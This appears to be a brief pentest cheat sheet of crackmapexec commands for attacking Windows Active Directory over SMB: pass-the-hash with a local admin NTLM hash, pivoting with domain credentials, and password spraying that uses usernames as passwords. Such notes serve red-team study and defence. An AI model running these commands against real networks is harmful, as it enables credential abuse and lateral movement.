 #### Pivot with local user

```
crackmapexec smb ad_hosts.txt -u administrator -H '11628d378a956b8ffc7e2c54b9a59574' --local-auth --continue-on-success
```

#### Pivot with domain user

```
crackmapexec smb ad_hosts.txt -d domain.com -u user -p password --continue-on-success
```

#### Password spray - username as password

```
crackmapexec smb ad_hosts.txt -d domain.com -u ad_user.txt -p ad_user.txt --continue-on-success --no-buteforce
```